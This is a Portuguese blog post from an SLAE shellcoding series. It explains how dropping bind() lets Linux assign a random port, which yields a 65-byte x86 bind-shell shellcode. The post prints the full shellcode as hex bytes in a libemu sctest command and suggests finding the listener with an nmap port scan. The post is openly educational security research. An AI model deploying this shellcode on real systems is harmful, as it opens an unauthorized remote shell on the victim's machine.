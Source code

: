 ```yaml
---
layout: post
title: Hacking do Dia - Shell Bind TCP Random Port
date: '2013-03-18T23:00:00.000-03:00'
author: geyslan
tags: [slae, shellcode, linux, code, assembly, c, hacking, metasploit, portuguese]
modified_time: '2014-05-04T11:38:14.382-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1583820687648973523
blogger_orig_url: http://www.hackingbits.com/2013/03/hacking-do-dia-shell-bind-tcp-random.html
---
```


*/\*<br>
Para melhor entendimento, leiam o post anterior [SLAE - 1st Assignment - Shell Bind TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
\*/*

<!--more-->

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-834.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

*\<UPDATE 2\><br>
Foram incluídas no Metasploit as versões x86 e x86_64 deste payload.<br>
Tks Ewerson Guimarães (Crash), Tod Beardsley and all involved in Metasploit project.<br>
x86
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
x86_64
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
\</UPDATE 2\>*

Olá pessoal!

Comentários são sempre fantásticos. Sabem por quê?

Porque através da troca de conhecimento ideias surgem. E, havendo vontade, essas
ideias podem se transformar em algo útil.

Esta tarde, [Tiago Natel](https://twitter.com/_i4k_)
([SecPlus](http://www.secplus.com.br/)) me respondeu, com veemência e
propriedade, sobre o post [SLAE - 1st
Assignment](slae-1st-assignment-shell-bind-tcp.html)
na lista do [Brasil
Underground](https://groups.google.com/forum/?fromgroups#!forum/brasil-underground).
A informação que ele passou sobre shellcodes e o uso do **SO_REUSEADDR** foram
engrandecedoras para mim e os demais da lista.

Por e-mail, marcamos de debatermos o assunto, o que aconteceu no finalzinho da
tarde.

Fizemos, em conjunto, uns debbugs e traces dos shellcodes do metasploit e do que
disponibilizei via
[github](https://github.com/geyslan/SLAE/tree/master/1st.assignment).
Constatamos que realmente o do metasploit gera SIGSEGV quando a porta ainda está
em TIME_WAIT, uma vez que ao tentar fazer o bind, e não conseguir, o registrador
$eax recebe número negativo (erro) e fica poluído. Mesmo as novas cópias para
esse registrador não resolvem, já que, para se evitar null-bytes, os shellcodes
têm mov's usando o registrador $al, que copiam apenas 1 byte, deixando o resto
de $eax como está. Bom, dá para imaginar que o shellcode não vai funcionar muito
bem. :D

Identificamos, porém, que quando o meu shell_bind_tcp, sem opção SO_REUSEADDR,
era instanciado pela segunda vez, ou seja, com a porta da instância anterior
ainda em TIME_WAIT, o socket, ao ser criado, usava uma porta aleatória. De
início, achamos isso meio louco! Chegamos a pensar que a listen cuidava disso.
Eu pensei que era alguma coisa da libc, mas reproduzi o mesmo efeito com o
código asm (apenas com syscalls).

Nesse ínterim, Tiago, por ter bastante experiência, fez uma pesquisa rápida no
google e  encontrou informações a respeito do uso do bind no manual POSIX da
Fujitsu Siemens Computer
([SOCKETS/XTI(POSIX)](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)).

Vejam o achado dele (pg. 23):

> 2.6.6 Automatic address assignment by the system<br><br>
You can still call a function for a socket which actually requires a bound
socket (e.g. connect(), sendto(), etc.), **even if the socket has no address
assigned to it. In this case, the system executes an implicit bind() call with
wildcards for the Internet address and port number, i.e. the socket is bound
with INADDR_ANY to all IPv4** addresses and with IN6ADDR_ANY to all IPv6 addresses
and IPv4 addresses of the host **and receives a free port number from the range of
non-privileged port numbers.**

O que isso quer dizer?

Se não tivermos feito bind no socket, ou se o bind não acontecer por não haver
endereço e/ou porta disponíveis, como identificamos no meu shell_bind_tcp sem
SO_REUSEADDR, ao se utilizar syscalls como connect, sendto, no nosso caso a
listen, o sistema se encarrega de fazer um bind genérico com o atributo
INADDR_ANY e de disponibilizar uma porta dentre os números não privilegiados.

De certa forma estávamos corretos, pois pensávamos que era a listen que estava a
fazer o bind automático; em verdade, foi através dela que o sistema se
encarregou de amarrar o socket a um endereço disponível.

*Sim, e daí?*

Os shellcodes não imploram para serem pequenos e se adequarem aos buffers
explorados?

Quase que instantaneamente tivemos a ideia de retirar o setsockopt (usado no meu
shellcode) e o próprio bind (usado em todos).

Vocês não imaginam o tamanho do novo
[shell_bind_tcp_random_port](https://github.com/geyslan/SLAE/tree/master/improvements)...

**Míseros 65 bytes**

{% highlight console %}
$ echo -e "\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x5f\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\x43\x89\x54\x24\x08\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xca" | /opt/libemu/bin/sctest -vvv -Ss 100000 -G shell_bind_tcp_random_port.dot
{% endhighlight %}

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/improvements/shell_bind_tcp_random_port_shellcode.png" caption="Fluxograma do shell_bind_tcp_random_port" %}

*Ah, mas isso não serve! Do que adianta se eu não posso setar a porta?*

**nmap nele!**

{% highlight console %}
$ nmap -sS host -p-
{% endhighlight %}

Só tenho algo mais a dizer: **COMPARTILHEM!!**

*P.S.* Valeu, Tiago!

##Mais Informações

[Hacking bits - github](https://github.com/geyslan)<br> [Metasploit x86
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
[Metasploit x86_64
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
[SecPlus - github](https://github.com/SecPlus/)<br>
[SecPlus](http://www.secplus.com.br/)<br> [POSIX - SOCKETS/XTI for POSIX -
Manuals - Fujitsu](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)<br>
[bind() - POSIX - IEEE Std
1003.1-2008](http://pubs.opengroup.org/onlinepubs/9699919799/functions/bind.html)<br>
[nmap](http://nmap.org/)<br> [Brasil
Underground](https://groups.google.com/forum/?fromgroups#%21forum/brasil-underground)<br>
